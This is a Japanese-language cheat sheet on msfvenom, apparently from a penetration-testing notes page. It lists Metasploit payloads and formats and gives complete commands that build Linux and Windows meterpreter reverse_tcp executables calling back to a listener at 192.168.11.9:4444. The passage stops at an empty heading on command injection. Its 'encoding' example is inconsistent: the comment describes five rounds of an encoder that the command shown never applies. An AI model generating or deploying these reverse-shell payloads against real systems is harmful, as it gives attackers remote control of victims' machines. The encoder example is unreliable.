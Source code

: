 ## msfvenom

### ペイロードの一覧表示

```shell
msfvenom --list payloads | grep windows

# または、msfconsole で、
search type:payload platform:windows
# または
search payload/windows
```

### ペイロードに必要なオプションを表示

```shell
# msfconsole
use payload/php/meterpreter/reverse_tcp
show options
```

### 出力可能なフォーマット一覧

```shell
msfvenom --list formats
```

### ペイロード作成

種類は様々  
https://github.com/puckel/Cheatsheets/blob/master/Cheatsheet_MetasploitPayloads.txt

```shell
# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.11.9 LPORT=4444 -f elf > shell.elf
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.11.9 LPORT=4444 -f exe > shell.exe
```

### エンコード指定してペイロード作成

エンコードの目的はウイルス対策を回避することではなく、ペイロードの動作を保証すること

```shell
# 'zutto_dekiru'エンコードを5回繰り返す
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.11.9 LPORT=4444 -f exe > shell.exe

# 繰り返すほどサイズが大きくなる
Payload size: 617 bytes
Final size of exe file: 73802 bytes
```

## コマンドインジェクションを利用する例
